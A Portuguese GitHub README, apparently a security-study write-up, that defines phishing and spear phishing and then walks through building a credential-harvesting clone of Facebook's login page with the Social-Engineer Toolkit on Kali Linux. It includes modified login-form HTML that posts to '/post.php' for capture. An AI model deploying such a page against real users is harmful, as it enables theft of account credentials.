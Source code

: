 # O que é Phishing?

De acordo com a America's Cyber Defense Agency:
> "Phishing é um tipo de ataque de engenharia social frequentemente usado para roubar dados de usuário, incluindo credenciais de login e números de cartão de crédito. Isso ocorre quando um atacante, se passando por uma entidade confiável, engana a vítima para abrir um email, mensagem instantânea ou mensagem de texto mal-intencionada que parece legítima. O objetivo é enganar a vítima para revelar informações sensíveis ou clicar em um link mal-intencionado que instala malware ou a direciona para um site fraudulento."

No geral, phishing é um tipo de ataque que se enquadra como engenharia social, no qual se visa roubar dados como credenciais. Este ataque pode ocorrer por diversos meios, como SMS, e-mail, links maliciosos, etc.

## Spear Phishing

De acordo com a Kaspersky:
> "Enquanto phishing é um termo geral para ataques cibernéticos realizados por e-mail, SMS ou chamadas telefônicas, alguns podem se perguntar como são chamados ataques de phishing direcionados. A resposta é spear phishing. Em termos mais simples, trata-se de ataques cibernéticos altamente personalizados que visam indivíduos ou empresas específicas. Normalmente, esses ataques são realizados por meio de e-mails de spear phishing que parecem legítimos para o destinatário e os incentivam a compartilhar detalhes confidenciais com o invasor. Embora o objetivo dos ataques de spear phishing geralmente seja roubar informações como credenciais de login ou informações de cartão de crédito, alguns são projetados para infectar dispositivos com malware. Frequentemente, hackers e hacktivistas patrocinados pelo governo são os perpetradores de golpes de spear phishing. No entanto, criminosos cibernéticos individuais também realizam esses ataques com a intenção de perpetrar roubo de identidade ou fraude financeira, manipulando preços de ações, cometendo espionagem ou roubando dados confidenciais para revendê-los a governos, empresas privadas ou outros indivíduos interessados."

## Ferramentas para Testes de Phishing

Para testes em escala, vale ressaltar que existem ferramentas mais apropriadas como o Gophish, Evilginx2, HiddenEye, King Phisher, etc. Mas para propósitos conceituais, iremos usar a ferramenta SET (Social-Engineer Toolkit) que já vem disponível em distros como o Kali Linux.

### Ferramentas Utilizadas

- **Kali Linux**
- **SET (Social-Engineer Toolkit)**

### Configurando o Phishing no Kali

*  **Acessar o Kali Linux:**
*	**Sudo su** 
*	**Setoolkit** 
*	**Social-Engineering Attacks**
*	**Website Attack Vectors**
*	**Credential Harvester Attack Method**
*	**Site Cloner**
*	**Ip-local (aonde as informações devem ser enviadas)**
*   **Url do site a ser clonado**

![foto 1](images/foto_1.png)
![foto 2](images/foto_2.png)
![foto 3](images/foto_3.png)
![foto 4](images/foto_4.png)
![foto 5](images/foto_5.png)
![foto 6](images/foto_6.png)
![foto 7](images/foto_7.png)
![foto 8](images/foto_8.png)

## troubleshooting
O codigo fonte da pagina do facebook é protegido, o que significa que le não é montado como um unico arquivo HTML, mas sim com varios scripts, assim nossa ferramenta não consegue clonar o codigo fonte da pagina de login do facebook.

![foto 9](images/foto_9.png)
![foto 10](images/foto_10.png)

Uma solução é criarmos nosso proprio template, para isso podemos usar a extensão SingleFile (firefox)

![foto 11](images/foto_11.png)
![foto 12](images/foto_12.png)

Após isso precisamos modificar algumas partes do código, para que fiquem compativeis com o SET

![foto 13](images/foto_13.png)

**codigo original**
```html
<form class=_9vtf data-testid=royal_login_form action="/login/?privacy_mutation_token=eyJ0eXBlIjowLCJjcmVhdGlvbl90aW1lIjoxNzIxMzM2NDE4LCJjYWxsc2l0ZV9pZCI6MzgxMjI5MDc5NTc1OTQ2fQ%3D%3D&amp;next" method=post id=u_0_2_fU><div><div class=_6lux><input type=text class="inputtext _55r1 _6luy" name=email id=email data-testid=royal_email placeholder="Email or phone number" autofocus aria-label="Email or phone number" value></div><div class=_6lux><div class="_6luy _55r1 _1kbt" id=passContainer><input type=password class="inputtext _55r1 _6luy _9npi" name=pass id=pass data-testid=royal_pass placeholder=Password aria-label=Password><div class="_9ls7 hidden_elem sf-hidden" id=u_0_3_QO></div></div></div></div><div class=_6ltg><button value=1 class="_42ft _4jy0 _6lth _4jy6 _4jy1 selected _51sy" name=login data-testid=royal_login_button type=submit id=u_0_5_Lx>Log In</button></div><div class=_6ltj><a href="https://www.facebook.com/recover/initiate/?privacy_mutation_token=eyJ0eXBlIjowLCJjcmVhdGlvbl90aW1lIjoxNzIxMzM2NDE4LCJjYWxsc2l0ZV9pZCI6MzgxMjI5MDc5NTc1OTQ2fQ%3D%3D&amp;ars=facebook_login&amp;next">Forgot password?</a></div><div class=_8icz></div><div class=_6ltg><a role=button class="_42ft _4jy0 _6lti _4jy6 _4jy2 selected _51sy" href=# ajaxify=/reg/spotlight/ id=u_0_0_6w data-testid=open-registration-form-button rel=async>Create new account</a></div></form>
```

***codigo modificado***
```html
<form class=_9vtf data-testid=royal_login_form action="/post.php" method=post id=u_0_2_fU><div><div class=_6lux><input type=text class="inputtext _55r1 _6luy" name=email id=email data-testid=royal_email placeholder="Email or phone number" autofocus aria-label="Email or phone number" value></div><div class=_6lux><div class="_6luy _55r1 _1kbt" id=passContainer><input type=password class="inputtext _55r1 _6luy _9npi" name=pass id=pass data-testid=royal_pass placeholder=Password aria-label=Password><div class="_9ls7 hidden_elem sf-hidden" id=u_0_3_QO></div></div></div></div><div class=_6ltg><button value=1 class="_42ft _4jy0 _6lth _4jy6 _4jy1 selected _51sy" name=login data-testid=royal_login_button type=submit id=u_0_5_Lx>Log In</button></div><div class=_6ltj><a href="#">Forgot password?</a></div><div class=_8icz></div><div class=_6ltg><a role=button class="_42ft _4jy0 _6lti _4jy6 _4jy2 selected _51sy" href=# id=u_0_0_6w data-testid=open-registration-form-button>Create new account</a></div></form>
```

Agora devemos selecionar a opção 3 "Custom import" (também precisamos salvar o template como "index.html" dentro do diretório que iremos expeficiar ao SET)

![foto 14](images/foto_14.png)
![foto 15](images/foto_15.png)
![foto 16](images/foto_16.png)
![foto 18](images/foto_18.png)
![foto 19](images/foto_19.png)
![foto 20](images/foto_20.png)

Foram efetuados testes tanto na rede local, quanto em rede externa. 
Vale resautar que a eficacia de pishings e engenharia social estão ligadas ao tanto de informações disponiveis, então também podemos assosiar a OSINT

Fontes:

www.kaspersky.com.br/resource-center/definitions/spear-phishing

www.cisa.gov/news-events/news/avoiding-social-engineering-and-phishing-attacks
